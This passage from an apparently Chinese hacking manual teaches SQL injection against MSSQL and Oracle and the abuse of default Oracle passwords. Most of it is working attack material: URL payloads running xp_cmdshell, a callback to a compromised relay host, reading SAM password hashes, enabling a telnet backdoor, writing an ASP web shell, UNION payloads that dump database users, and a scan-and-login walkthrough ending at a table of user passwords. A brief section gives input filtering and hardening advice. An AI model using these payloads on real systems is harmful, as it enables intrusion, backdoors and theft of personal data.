[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'username' 转换为数据类型为 smallint 的列时发生语法错误。
/testint.asp，行 13
```

这样我们就得到了表login中的字段名userid和username，利用这种方法我们可以逐步得到login表中的所有字段名了。

得到数据库的信息之后，我们就可以利用上一节中的方法对数据库进行操作以及得到数据库当中的信息，这里不再赘述了。

## 四、利用SQL Injection入侵系统

前面我们所讲述的都是利用SQL Injection技术来分析以及入侵SQL Server数据库的例子，但是对于黑客而言，仅仅入侵到数据库是远远不够的，更进一步的想法自然是入侵整个目标操作系统。下面我们就来讲述一下如何利用SQL Injection技术来进行操作系统级别的入侵。

### 1. 获取系统信息

其中有一个名为`@@version`的全局变量可以为我们提供这方面的信息。同样，利用把这个信息侵入到错误信息中的方法，我们就可以得到想要的系统信息了。

还以前面那个test.asp程序为例，我们提交如下URL：

`http://localhost/test.asp?username=' isno&password=testit' union select @@version,1,1--`

浏览器返回：

```text
Microsoft OLE DB Provider for ODBC Drivers 错误 '80040e07'

[Microsoft][ODBC SQL Server Driver][SQL Server]将 nvarchar 值 'Microsoft SQL Server 2000 - 8.00.194 (Intel X86) Aug 6 2000 00:57:48 Copyright (c) 1988-2000 Microsoft Corporation Standard Edition on Windows NT 5.0 (Build 2195: Service Pack 2)' 转换为数据类型为 smallint 的列时发生语法错误。

/test.asp，行14
```

这样就得到了SQL Server和操作系统以及Service Pack的版本号，为我们进一步入侵打下了坚实的基础。

### 2. 利用扩展存储过程

扩展存储过程是SQL Server提供的一类用来扩展数据库功能的命令，它们是通过DLL来实现的。利用扩展存储过程，几乎可以做到任何我们想要在系统中做的事情。

### （1）执行任意命令

`xp_cmdshell`是一个可以用来执行系统命令的扩展存储过程，使用起来也很简单，例如：`exec master..xp_cmdshell 'dir'`，就可以执行dir命令了。我们利用SQL Injection可以直接把`xp_cmdshell`嵌入到URL里面，以达到执行系统命令的目的。例如：

`http://localhost/test.asp?username=' isno&password=testit'; exec master..xp_cmdshell 'dir'--`

但是这里有一个问题，所执行的命令的结果并不会通过浏览器返回给我们，那么我们怎么才能知道命令是否执行成功了没有呢？其实办法有很多，例如我们可以在一台有真实IP的肉鸡上用nc监听UDP的53端口，然后在目标系统上执行nslookup命令来查询那个肉鸡，看肉鸡上是否有反应就可以了。具体方法如下：

在肉鸡192.168.0.103上执行`nc -u -l -p 53`命令，当然前提是已经有了nc这个程序。然后利用SQL Injection在目标机上执行下面URL：

`http://localhost/test.asp?username=' isno&password=testit'; exec master..xp_cmdshell 'nslookup a.com 192.168.0.103'--`

这时在192.168.0.103上面会显示一些乱码，并且发出“嘀”的响声，这证明命令确实成功执行了。然后我们就可以利用`xp_cmdshell`来执行TFTP、FTP等命令上传文件，对目标机器进行入侵了。具体操作过程这里就不再赘述了，相信各位黑侠对这些命令都了如指掌。

### （2）操作注册表

SQL Injection提供一系列扩展存储过程来帮助我们对注册表进行操作，主要有下面这几个：

- xp_regaddmultistring
- xp_regdeletekey
- xp_regdeletevalue
- xp_regenumkeys
- xp_regenumvalues
- xp_regread
- xp_regremovemultistring
- xp_regwrite

这些扩展存储过程的具体用法都比较简单，就不在这里介绍了。举一个例子，例如我们可以使用`xp_regread`来读取注册表中的SAM信息，可以从中取得加密过的用户密码，再使用其他工具进行解密：

```sql
exec master..xp_regread HKEY_LOCAL_MACHINE, 'SAM\\SAM\\Domains\\Account\\Users\\000001F4', 'F'
```

当然，要想成功执行上面命令，需要SQL Server是以Local System身份运行的，默认安装的SQL Server是可以执行的。

### （3）操作服务

使用`xp_servicecontrol`这个扩展存储过程，可以对系统服务进行操作，例如我们可以把telnet服务打开：

```sql
exec master..xp_servicecontrol 'start', 'tlntsvr'
```

我们再结合对注册表进行修改，可以改变telnet服务的登陆认证方式，这样就可以成功打开一个cmd.exe后门。

### 3. 利用自定义的扩展存储过程

除了使用系统中已经存在的扩展存储过程以外，我们还可以使用自己定义的扩展存储过程。例如，我们写了一个DLL程序，可以使用下面命令使它成为扩展存储过程：

```sql
sp_addextendedproc 'xp_myproc', 'c:\\temp\\xp_mine.dll'
```

然后，我们就可以利用SQL Injection插入下面的语句来执行我们自己的扩展存储过程：

```sql
exec xp_myproc
```

当使用完自定义的扩展存储过程之后，不要忘记把它删除：

```sql
sp_dropextendedproc 'xp_myproc'
```

### 4. 对文件的操作

我们可能要把一些数据库中的内容转存到文本文件当中，或者将文本文件导入数据库，这时候也可以在SQL Injection当中完成。

利用bulk可以把文本文件导入到一个临时表里面：

```sql
bulk insert foo from 'c:\\temp\\test.txt'
```

如果我们想通过SQL Injection来查看系统中的文本文件，就可以使用bulk insert把文件导入数据库，然后结合前面的union方法把表中的文本在错误信息当中显示出来。

### 5. 利用ActiveX自动脚本

SQL Server提供了一类内置存储过程用来实现WSH脚本，也就是说可以使用VBScript和JavaScript中的大部分对象。下面用几个例子来说明ActiveX自动脚本。

### （1）使用wscript.shell运行任意程序

```sql
exec sp_oacreate 'wscript.shell'
exec sp_oamethod @o, 'run', NULL, 'notepad.exe'
```

这样的脚本就可以直接嵌入到要SQL Injection的URL里面去：

```text
http://localhost/test.asp?username=isno&password=testit'; declare @o int exec sp_oacreate 'wscript.shell' exec sp_oamethod @o, 'run', NULL, 'notepad.exe'--
```

### 2. 使用scripting.filesystemobject读取任意文本文件

```sql
declare @o int, @f int, @t int, @ret int
declare @line varchar(8000)
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'opentextfile', @f out, 'c:\boot.ini', 1
exec @ret=sp_oamethod @f, 'readline', @line out
while(@ret=0)
begin
  print @line
  exec @ret=sp_oamethod @f, 'readline', @line out
end
```

### 3. 在WWW目录下建立一个用来执行任意命令的ASP程序

```sql
declare @o int, @f int, @t int, @ret int
exec sp_oacreate 'scripting.filesystemobject', @o out
exec sp_oamethod @o, 'createtextfile', @f out, 'c:\inetpub\wwwroot\foo.asp', 1
exec @ret=sp_oamethod @f, 'writeline', NULL, '<% set o=server.createobject("wscript.shell") : o.run(request.querystring("cmd")) %>'
```

## 五、如何防范SQL Injection

综上所述，SQL Injection攻击的威胁性是相当大的，尤其是针对没有进行过安全培训的ASP程序员所写的脚本程序，几乎全部存在SQL Injection的问题。要想从根本上避免出现SQL Injection漏洞，主要还是提高Web程序员的安全意识，解决程序本身的漏洞。

首先，必须对所有用户输入进行严格的过滤，对单引号、双引号以及“—”等符号进行过滤。不仅是对QUERY_STRING环境变量过滤，还要对所有的表单提交数据以及用户可能对HTML源文件进行修改来控制的下拉菜单、单选/多选按钮等所有来自Web服务器外部的数据进行过滤。

对单引号、双引号等特殊字符的过滤方法不能简单删除用户数据，因为恶意的攻击者可能会结合一些数据的组合来绕开这种过滤方法。正确的过滤方法是将单引号转换为两个单引号：

```text
input = replace(input, "'", "''")
```

但从程序的角度来过滤可能还不够，水平再高的程序员也可能会有所疏漏，所以还要结合其他的安全手段来进行保护，例如，使用防火墙过滤掉进入80端口的单引号、双引号以及“—”等特殊符号。

还要对SQL Server进行必要的安全配置，例如删除`xp_cmdshell`、`xp_reg*`、`xp_servicecontrol`、`sp_oa*`等不经常使用而又带有一定危险性的扩展存储过程，对数据库用户的权限进行严格区分等，这样才能在最大程度上避免SQL Injection攻击的危害。

## 5.4 通过注入技术攻击ORACLE服务器

### 一、什么是注入技术

这个概念比较长：所谓注入技术它是通过修改基于要传送给数据库的SQL语句来获取数据资料，而资料通常是处于防火墙保护之下的，由于它的灵活可变性，所以我们冒昧地把这许多“方法”的集合称成一种“技术”。这就是我们今天要讨论的“注入技术”。当然，明白了这其中原理的人才知道如何灵活运用它们。举个例子，通过简单地把一个单引号“'”加到参数里面，就可能导致第二条SQL语言被执行。通过注入技术的攻击，我们可以达到两个最主要的目标：

- 1. 窃取数据库的重要资料。在通常状态下这些数据是不能公开的，属于机密数据；或者得到系统里面重要的配置参数。通过注入技术我们甚至可以修改系统数据库配置，包括它的参数、属性值。一个简单的例子就是：大多数注入攻击可以获得数据库的密码。如果密码不是明文形式，黑客们也可以用暴力破解的方法破译。（数据库密码一般用Hash算法来编码）。
- 2. 通过主机的数据库获得主机系统文件的存取权限。我们可以通过存储过程或者可扩展的3GL语言实现，这些工具都是可以存取系统文件的。

在Oracle数据库系统上，我们可以通过多种方法使用注入技术。主要看你使用的是何种形式的API函数和语言。下面这些语言、Api函数接口和工具都能存取Oracle系统，它们中的大多数都是基于Web的应用程序，如：JSP、ASP、XML、XSL and XSQL、JavaScript、VB、MFC。还有一些基于ODBC的工具和ODBC API和一些旧版本的Webdb、Oracle应用程序；在基于Web的开发语言上还有我们熟悉的C、Pro*C、COBOL、Perl的CGI等脚本程序。以上说到的工具、设计语言、API等都能通过注入技术攻击oracle服务器。SQL注入技术通常在程序使用了动态的SQL语言时产生。如：通过网页提交的表单，然后在构造成sql语句传给服务器。除此之外，注入技术再不能都得以运行。这不是简单的基于Web应用程序的问题。当然了，现在面向Web应用程序最大的风险就是每个使用者都有自己的浏览器，入侵者通过浏览器他们可以为所欲为，输入攻击性的注入字符得到数据库上的任意数据。

### 二、如何保护基于Web的oracle应用程序

我们必须记住两个要点：

- 1. 严格审核应用程序代码。通过简单的移动或者更换一些可能产生注入技术的地方（我们将在后面讨论如何去简单的替换或改变SQL注入语句）来完成审核。
- 2. 强行减少运行数据库的运行者的权限，使其达到最低。这样就算有人可以用SQL注入技术窃取到数据库的数据，也不能利用设计好的普通应用程序的数据库接口得到更多的数据。

### 三、SQL注入技术如何影响ORACLE服务器

Oracle和其他数据库产品一样，都有被SQL注入技术攻击的缺陷。当Oracle数据库系统在运行的时候，我们可以通过把“UNION”数据附加在已经存在的SQL语句后面，使它后面的语句自然而然的可以被执行。像这样的语句还很多，比如附加在一个SQL语句后面的另一条子select命令，用它就可以返回我们想要的更多数据。这种技术经常被用来获得系统的执行权限，这可能需要第三方的接口认证。在使用动态SQL语句的时候，DDL语句也能够被注入到串中。INSERTS、UPDATES和DELETES同样也被应用到了注入串中以执行注入语句。那么我们可以把其他的数据库都注入到目标数据库中吗？答案是肯定的。换句话说，我们应该设置多条SQL语句不能被同时执行，才能避免受到注入攻击。换句话说，黑客们就不可能通过绑定SQL变量的方式攻击Oracle服务器了。因此，这对于大多数注入攻击来说是一种很好的解决方案。

#### 四、一些特殊的例子

很显然，基于Web的程序更容易受到SQL注入技术的威胁。这些基于Web的程序我们可以用已经列出的一些语言，如ASP、JSP等来编写。现在，有些人也在争论是否SQL注入技术只能对基于Web的程序带来威胁。的确，但不完全对。也许是这种威胁对你来说还没有建立起来，尤其是Oracle。为了证明可能出现在Oracle服务器上的注入式攻击，我们写了一些简单的PL/SQL子过程，这些子过程只是简单从数据库里面显示客户的电话号码。通过没有过滤的SQL语句，我们可以把它注入到任何载入动态SQL语句的系统数据库中。所以，我们用PL/SQL和一些SQL* PLUS工具来模拟它的发生过程。这样一来，朋友们也可以用这些例子来实践存取Oracle服务器了。你可以安装Oracle 8，或者更高的版本。声明：为了可以达到我们的目的，我们没有用到任何语句去编码我们的SQL字符串变量，而直接把SQL串通过一个Web浏览器传送给Oracle服务器。在以下演示的例子中，我们会用到这张表：

| NAME | NULL? | TYPE |
|---|---|---|
| CUSTOMER_FORNAME | | VARCHAR2(30) |
| CUSTOMER_SURNAME | | VARCHAR2(30) |
| CUSTOMER_PHONE | | VARCHAR2(30) |
| CUSTOMER_FAX | | VARCHAR2(30) |
| CUSTOMER_TYPE | | NUMBER(10) |

在这张表中我们已经输入了如下的记录：

```sql
SQL> SELECT * FROM CUSTOMERS;
CUSTOMER_FORNAME            CUSTOMER_SURNAME
------------------------    ------------------------
CUSTOMER_PHONE              CUSTOMER_FAX              CUSTOMER_TYPE
------------------------    ------------------------  -------------
FRED                        CLARK
999444888                   999444889                 3
BILL                        JONES
999555888                   999555889                 2
JIM                         CLARK
999777888                   999777889                 1
```

接下来我们会进行下面的演示。在执行的过程中，我们使用DBSNMP用户来执行就可以了，因为它在数据库中的权限比一般用户高得多。

```sql
PROCEDURE GET_CUST(LV_SURNAME IN VARCHAR2)
IS
    TYPE CV_TYP IS REF CURSOR;
    CV CV_TYP;
    LV_PHONE    CUSTOMERS.CUSTOMER_PHONE%TYPE;
    LV_STMT     VARCHAR2(32767) := 'SELECT CUSTOMER_PHONE ' ||
                                   'FROM CUSTOMERS ' ||
                                   'WHERE CUSTOMER_SURNAME=''' ||
                                   LV_SURNAME || '''';
BEGIN
    DBMS_OUTPUT.PUT_LINE('DEBUG : '||LV_STMT);
    OPEN CV FOR LV_STMT;
    LOOP
        FETCH CV INTO LV_PHONE;
        EXIT WHEN CV%NOTFOUND;
        DBMS_OUTPUT.PUT_LINE(' : '||LV_PHONE);
    END LOOP;
    CLOSE CV;
END GET_CUST;
```

对这个过程来说，我们实在不可能在已经编译好的过程中添加其他语句，从而使其产生注入攻击，就算它是和其他数据库如MSSQL一起工作，结果也一样。接下来该演示我们如何使用这个过程了：

```sql
SQL> EXEC GET_CUST('X'' SELECT USERNAME FROM ALL_USERS WHERE ''X''=''X');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' SELECT
USERNAME FROM ALL_USERS WHERE 'X'='X'
ORA-00933: SQL COMMAND NOT PROPERLY ENDED
```

当然，这个过程返回了错误的信息，指出SQL语句不完整。本来是希望得到顾客的SURNAME，但是却出现了问题。那原来应有的形式是什么呢？

```sql
SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='JONES'
```

可以看出，我们可以在输入的变量后面加一个语句分割符号，在SQL里面是分号。那么原来的例子就得改一下，成为：

```sql
SQL> EXEC GET_CUST('X'' ;SELECT USERNAME FROM ALL_USERS WHERE ''X''=''X');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' ; SELECT
USERNAME FROM ALL_USERS WHERE 'X'='X'
ORA-00911: INVALID CHARACTER
```

从中我们可以看出，Oracle返回的信息和上次不同了。Oracle竟然返回无效字符的错误提示。看来，我们已经接近成功了。只要找到无效字符产生的地方，加以排除，也许就可以成功。从例子中分析得知，我们根本就不能简单地添加一条SQL命令在其后面，使其执行。光是用一个分号来分割是不可行的办法。那么唯一的办法就是用到UNION的语句。（UNION的具体用法请翻看ORACLE的在线手册）请看下面的语句，我们会从中读出数据库中所有用户的列表：

```sql
SQL> EXEC GET_CUST('X'' UNION SELECT USERNAME FROM ALL_USERS WHERE ''1X''!=''1X'');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' UNION
SELECT USERNAME FROM ALL_USERS WHERE 'X'='X'
: AURORA$JIS$UTILITY$
: AURORA$ORB$UNAUTHENTICATED
: CTXSYS
: DBSNMP
: MDSYS
: ORA$PLUGINS
: ORDSYS
: OSE$HTTP$ADMIN
: OUTLN
: SYS
: SYSTEM
: TRACESVR
```

大家仔细看看，它成功了！我们得到了数据库所有用户的信息。虽然如此，我们依然不能从其他表中修改或者添加一整列的字段，如果这样，等于修改数据库的结构了。但是，我们可以通过查询语句修改返回的记录。请大家关注下面的例子：

```sql
SQL> EXEC GET_CUST('X'' OR EXISTS (SELECT 1 FROM SYS.DUAL) AND ''X''=''X'');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' OR EXISTS
(SELECT 1 FROM SYS.DUAL) AND 'X'='X'
: 999444888
: 999555888
: 999777888
```

看到我标志的 `AND 'X'='X'` 了吗？这个是必须的，相当于它要返回一个真值。这个例子把某字段所有的记录返回到了我们的表中。你是不是想到了什么？其实，你还可以发挥你更具有创造性的头脑，产生更有趣的注入串来。

接下来，我们要讨论的是 SQL 语句的后半部分 `WHERE`，这样我们就可以得到表中的所有记录了。讨论它的用法其实有很深的含义。大家可能记不起来了，它最经典的用法就是用在基于 Web 的应用程序上，它常常用来验证一个用户是不是合法的数据库用户。看看这个例子：

```sql
SELECT * FROM APPUSERS WHERE USERNAME='SOMEUSER' AND PASSWORD='SOMECLEVERPASSWORD'
```

是不是有点似曾相识的感觉呢？对！在登录某些 Web 的管理页面或者留言板、聊天室的 ASP 语句中我们常常用到。利用注入攻击，我们可以得到数据库中所有用户的记录，而这其中也可能包含了我们的 ADMINISTRATOR 用户密码。只要简单地用 `OR 'X'='X'` 在它的 `WHERE` 中就可以实现目的了。我们实际操作一下：

```sql
SQL> EXEC GET_CUST('X'' OR ''X''=''X'');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' OR 'X'='X'
: 999444888
: 999555888
: 999777888
```

事实的确如你看到的一样。紧接着要对我们的过程稍加修改，如果你觉得麻烦，可以自己创建一个。

```sql
PROCEDURE GET_CUST2 (LV_SURNAME IN VARCHAR2)
IS
    TYPE CV_TYP IS REF CURSOR;
    CV CV_TYP;
    LV_PHONE            CUSTOMERS.CUSTOMER_PHONE%TYPE;
    LV_STMT             VARCHAR2(32767) := 'SELECT CUSTOMER_PHONE '||
                                          ' FROM CUSTOMERS '||
                                          ' WHERE CUSTOMER_SURNAME='''||
                                          LV_SURNAME||''' AND CUSTOMER_TYPE=1';

BEGIN
    DBMS_OUTPUT.PUT_LINE('DEBUG: '||LV_STMT);
    OPEN CV FOR LV_STMT;
    LOOP
        FETCH CV INTO LV_PHONE;
        EXIT WHEN CV%NOTFOUND;
        DBMS_OUTPUT.PUT_LINE(':: '||LV_PHONE);
    END LOOP;
    CLOSE CV;
EXCEPTION
    WHEN OTHERS THEN
        DBMS_OUTPUT.PUT_LINE(SQLCODE||SQLERRM);
END GET_CUST2;
```

我们会用SQL的注释语句“--”注释掉WHERE后面的语句。这个技术在应用程序提供到数据库的字段时非常有用，而且这些进入字段往往不止一个。你还记得我们在网上填写自己的注册信息吗？为了通过添加一条SQL语句，而得到所有的记录，我们只要加一个“--”就可以了。看下面的例子：

```sql
SQL> EXEC GET_CUST2('X'' OR ''X''=''X'' --');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' OR 'X'='X'
--' AND CUSTOMER_TYPE=1
::999444888
::999555888
::999777888
```

通过运行它，我们可以看到：用OR语句，字段的所有记录都返回了。如果我们没有那个注释语句，其实也可以加一行“AND CUSTOMER_TYPE=1”使其运行。结合“UNION”语句的使用，你还可以得到更多像我们这样的例子。

大家看到的所有这些例子，可以得出一个结论：SELECT语句能够被额外地注入SQL语句。同样的，我们可以推论得出：INSERT、UPDATE、DELETE语句也可以被额外注入SQL语句。甚至，在ORACLE数据库中一些有效的DDL语句也能被注入，从而修改数据库的运行计划或破坏数据库数据。一些典型的用法就是把一些新建表格、新建索引的修改语句包含进来产生破坏作用，但这些语句不能通过简单的混合得到。我们知道，不能同时发送两个语句体到一个关系型数据库，就好像SELECT语句就是一个完整的语句了一样，我们不能再添加INSERT或者DELETE到其中。现在，很多程序员喜欢在程序中直接把SQL语句发送往服务器，其实这是一种极坏的编程方式，因为那样允许DDL语句被远程执行。很多人都对这个问题产生争议：有人说这不是什么SQL注入不注入的问题，而是SQL语言在本质上本身就是能够被运行的。你对这些又是怎么看待的呢？

#### 五、函数包、函数过程和功能调用

你可以从一个SQL语句调用任何一个PL/SQL功能函数。在每个ORACLE版本中这是很方便的，但实际上它只能在PL/SQL VERSION 2.1中可以被执行（PL/SQL 2.0是随ORACLE RDBMS VERSION 7.1一起发行的）。PL/SQL提供了许多的内置函数过程、功能调用等。然而这些函数和功能调用都是以包的形式封装好了的。头信息可以从$ORACLE_HOME/RDBMS/ADMIN中找到，或者通过下面的方式得到你系统功能函数的名称：

```sql
SQL> COL OWNER FOR A15
SQL> COL OBJECT_TYPE FOR A30
SQL> COL OBJECT_NAME FOR A30
SQL> SELECT OWNER, OBJECT_TYPE, OBJECT_NAME
  2  FROM DBA_OBJECTS
  3  WHERE OBJECT_TYPE IN ('PACKAGE', 'FUNCTION', 'PROCEDURE');
```

| OWNER | OBJECT_TYPE | OBJECT_NAME |
|---|---|---|
| SYS | FUNCTION | CLIENT_IP_ADDRESS |
| SYS | FUNCTION | DATABASE_NAME |
| SYS | FUNCTION | DBJ_LONG_NAME |
| SYS | FUNCTION | DBJ_SHORT_NAME |
| SYS | PACKAGE | DBMSOBJG |
| ... | ... | ... |
| CTXSYS | PACKAGE | DR_DEF |
| CTXSYS | PROCEDURE | SYNCRN |

391 ROWS SELECTED.

这里也是一个使用ORACLE提供的内置功能函数调用的例子。比如说：THE FUNCTION（SYS.LOGIN_USER）可以返回所有登录到数据库上的用户。它们运用起来也都很简单。那么，我们可以这样来用它：

```sql
SQL> EXEC GET_CUST('X'' UNION SELECT SYS.LOGIN_USER FROM SYS.DUAL WHERE ''X''=''X');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' UNION
SELECT SYS.LOGIN_USER FROM SYS.DUAL WHERE 'X'='X'
::DBSNMP
```

这样，我们可以得到我们想要的东西，但一定要记住：如果你想利用Oracle的内部系统功能函数调用，从而远程使用它们的话，最好这么做：

- 要确保不能修改数据库的当前运行状态；
- 不能修改包的状态；
- 不能在WHERE 和GROUP语句中修改包SQL变量的值。

比ORACLE 8更早些的版本中，可以供我们在SQL语句中使用的内置功能调用少之又少，从ORACLE 8以后有所改变。还有一点需要提醒大家的就是：不要试图在SQL语句行直接调用系统文件或者输出一个类型包之类的事情，即不能用UTL_FILE、DBMS_OUTPUT或者DBMS_LOB之类的功能函数，它们都是不能执行的，因为它们只能在PL/SQL的语句块中才可以被执行，或者直接键入到SQL*PLUS中执行。我们还可以在SQL语句中调用很多的功能函数，但为了注入的成功，以便顺利执行PL/SQL PACKAGES（包），过程调用，功能调用，必须确保它在动态PL/SQL中被执行。如果像我们讲述的方式一样执行一个应用程序；并采用动态PL/SQL，我们同样可以把注入技术用到应用程序上面。如果一个数据库是链接到其他数据库的，那么注入攻击技术依然有效。这样一来，攻击可以穿过防火墙，从而得到不能从Internet网上得到的数据。这有点像ODBC的DSN方式，数据库不在本地。我们来演示一下如何通过一个PL/SQL过程，从另一个数据库系统得到它的系统数据。请记住，我们不是直接获取另一个系统的数据的：

```sql
SQL> EXEC GET_CUST('X'' UNION SELECT TO_CHAR(SYSDATE) FROM SYS.DUAL@PLSQ WHERE ''1X''=''1X''');
DEBUG: SELECT CUSTOMER_PHONE FROM CUSTOMERS WHERE CUSTOMER_SURNAME='X' UNION
SELECT TO_CHAR(SYSDATE) FROM SYS.DUAL@PLSQ WHERE '1X'='1X'
: 13-NOV-02
```

你得到了你想得到的东西了吗？发挥创造性吧。

#### 六、总结

以上，我们纵观了一下SQL注入技术，详细介绍了Oracle的注入过程，讨论了PL/SQL动态语言。我们写这篇文章的目的不是要教导大家去攻击Oracle服务器，而是从防范的角度帮助网络数据库管理员了解最新的漏洞知识。以后我们还会陆续向大家介绍如何探测数据库中是否存在INJECTION（注入）漏洞，教大家如何保护自己的数据库不受INJECTION的攻击。

### 5.5 Oracle数据库默认密码的威胁

Oracle数据库是现在很流行的数据库系统，很多大型网站都采用Oracle，它之所以倍受用户喜爱，是因为它有以下突出的特点：

1. 支持大数据库、多用户的高性能的事务处理。Oracle支持最大数据库，其大小可到几百千兆，可充分利用硬件设备。支持大量用户同时在同一数据上执行各种数据应用，并使数据争用最小，保证数据一致性。系统维护具有高的性能，Oracle每天可连续24小时工作，正常的系统操作（后备或个别计算机系统故障）不会中断数据库的使用。可控制数据库数据的可用性，可在数据库级或在子数据库级上控制。
2. Oracle遵守数据存取语言、操作系统、用户接口和网络通信协议的工业标准。所以，它是一个开放系统，保护了用户的投资。美国标准化和技术研究所（NIST）对Oracle7 SERVER进行检验，100%地与ANSI/ISO SQL89标准的二级相兼容。
3. 实施安全性控制和完整性控制。Oracle为限制各监控数据存取提供系统可靠的安全性。Oracle实施数据完整性，为可接受的数据指定标准。
4. 支持分布式数据库和分布处理。Oracle为了充分利用计算机系统和网络，允许将处理分为数据库服务器和客户应用程序，所有共享的数据管理由数据库管理系统的计算机处理，而运行数据库应用的工作站集中于解释和显示数据。通过网络连接的计算机环境，Oracle将存放在多台计算机上的数据组合成一个逻辑数据库，可被全部网络用户存取。分布式系统像集中式数据库一样具有透明性和数据一致性。
5. 具有可移植性、可兼容性和可连接性。由于Oracle软件可在许多不同的操作系统上运行，以致Oracle上所开发的应用可移植到任何操作系统，只需很少修改或不需修改。Oracle软件同工业标准相兼容，包括很多工业标准的操作系统，所开发应用系统可在任何操作系统上运行。可连接性是指Oracle允许不同类型的计算机和操作系统通过网络可共享信息。

虽然Oracle数据库具有很高的安全性，但是如果我们在配置的时候不注意安全意识，那么也是很危险的。也就是说，安全最主要的还是要靠人自己，而不能过分依赖软件来实现。

我们知道，在MSSQL中，安装完成后默认有个sa的登录密码为空，如果不更改就会产生安全漏洞。那么Oracle呢？也有的。为了安装和调试的方便，Oracle数据库中的两个具有DBA权限的用户Sys和System的缺省密码是manager。笔者发现很多国内网站的Oracle数据库没有更改这两个用户的密码，其中也包括很多大型的电子商务网站，我们就可以利用这个缺省密码去找我们感兴趣的东西。如何实现，看下面的文章吧。

进行测试前，我们先来了解一些相关的知识，我们连接一个Oracle数据库的时候，需要知道它的service_name或者是Sid值，就像MSSQL一样，需要知道数据库名。那如何去知道呢，猜？呵呵，显然是不行的。这里我们先讲讲Oracle的TNS listener，它位于数据库Client和数据库Server之间，默认监听1521端口，这个监听端口是可以更改的。但是如果你用一个TCP的session去连接1521端口的话，Oracle将不会返回它的banner，如果你输入一些东西的话，它甚至有可能把你踢出去。这里我们就需要用tnscmd.pl这个perl程序了，它可以查询远程Oracle数据库是否开启（也就是ping了），查询版本，以及查询它的服务名、服务状态和数据库服务名，而且正确率很高。

理论方面的讲完了，如果还有什么不懂的可以去查找相关资料。现在开始测试吧，需要的工具有：ActivePerl、Oracle客户端、Superscan或者是其他扫描端口的软件——tnscmd.pl。

我们先用Superscan扫描开放了端口1521的主机，假设其IP是xx.xx.110.110，这样目标已经有了。然后，我们要做的就是用tnscmd.pl来查询远程数据库的服务名了，tnscmd.pl的用法如下：

```text
C:\perl\bin>perl tnscmd.pl
usage: tnscmd.pl [command] --h hostname
    where 'command' is something like ping, version, status, etc.
        (default is ping)
    [--p port] -- alternate TCP port to use (default is 1521)
    [---logfile logfile] -- write raw packets to specified logfile
    [---indent] -- indent & outdent on parens
    [---rawcmd command] -- build your own CONNECT_DATA string
    [---cmdsize bytes] -- fake TNS command size (reveals packet leakage)
```

我们下面用的只有简单的几个命令，其他的命令也很好用，一起去发掘吧……然后，我们就这样来：

```text
C:\perl\bin>perl tnscmd.pl services --h xx.xx.110.110 --p 1521 --indent
sending (CONNECT_DATA=(COMMAND=services)) to xx.xx.110.110:1521
writing 91 bytes
reading
……6……2……
DESCRIPTION=
  TMP=
  VSNNUM=135286784
  ERR=0
  SERVICES_EXIST=1
Q……
  SERVICE=
    SERVICE_NAME=ORCL
    INSTANCE=
      INSTANCE_NAME=ORCL
      NUM=1
INSTANCE_CLASS=ORACLE
HANDLER=
  HANDLER_DISPLAY=DEDICATED SERVER
  STA=ready
  HANDLER_INFO=LOCAL SERVER
  HANDLER_MAXLOAD=0
  HANDLER_LOAD=0
  ESTABLISHED=447278
  REFUSED=0
  HANDLER_ID=8CA61D1BBDA6-3F5C-E030-813DF5430227
  HANDLER_NAME=DEDICATED
  ADDRESS=
    PROTOCOL=beq
    PROGRAM=/home/oracle/bin/oracle
    ENVS='ORACLE_HOME=/home/oracle, ORACLE_SID=ORCL'
    ARGV0=oracleORCL
    ARGS=''
    LOCAL=NO
```

从上面得到的信息，我们可以看出数据库的服务名为ORCL，然后我们就可以通过sqlplus工具来远程连上它了，用户名和密码我们用默认的system/manager或者是sys/manager，其他的如mdsys/mdsys、ctxsys/ctxsys等，这个默认用户和密码是随版本的不同而改变的哦\~\~\~。

如下：

```text
C:\oracle\ora90\BIN>sqlplus /nolog
SQL*Plus: Release 9.0.1.0.1 - Production on Thu May 23 11:36:59 2002
(c) Copyright 2001 Oracle Corporation. All rights reserved.
SQL>connect system/manager@(description=(address_list=(address=(protocol=tcp)(host=xx.xx.110.110)(port=1521)))(connect_data=(SERVICE_NAME=ORCL)));
```

如果密码正确，那么就会提示connected，如果不行，再换别的默认用户名和密码。经过笔者的尝试，一般用dbsnmp/dbsnmp都能进去。当然，如果对方已经把默认密码改了，那我们就只能换别的目标了。但是，我发现很多都是不改的，这个就是安全意识的问题了。

成功连接后，这样来：

```text
SQL>select distinct owner from all_objects;
```

上面是查看数据库里面有多少用户，是不是觉得Oracle数据库和MSSQL数据库很像？提交后出现以下信息：

- CTXSYS
- MDSYS
- DEMO
- PUBLIC
- SYS
- SYSTEM
- ORCL
- ...

我们需要的就是ORCL了，其他全是系统默认的，没有什么价值，呵呵\~\~\~~

```text
SQL>select owner,table_name from dba_tables where owner='ORCL';
```

上面是查看数据表的内容了，提交后，出现以下信息：

| OWNER | TABLE_NAME |
|---|---|
| ORCL | MLOG$_T1 |
| ORCL | PLAN_TABLE |
| ORCL | VODAD |
| ORCL | VODADMIN |
| ORCL | VODBUSI |
| ORCL | VODFIRM |
| ORCL | VODFIRMDETAIL |
| ORCL | VODGROUP |
| ORCL | VODLOG |
| ORCL | VODSUR |
| ... | ... |
| ORCL | REGUNITTYPE |
| ORCL | REGUSER |
| ... | ... |

怎么样，发现你感兴趣的没有呢？REGUSER？用户信息……哈哈。然后提交如下语句：

```text
SQL> desc ORCL.REGUSER;
Name     Null?    Type
------   ------   ----------------
UNAME              VARCHAR2(32)
PASSWORD           VARCHAR2(20)
IDTYPE             VARCHAR2(2)
IDNUM              VARCHAR2(20)
OCCUPATION         VARCHAR2(2)
BIRTHDAY           DATE
USTATE             NUMBER(38)
.....
```

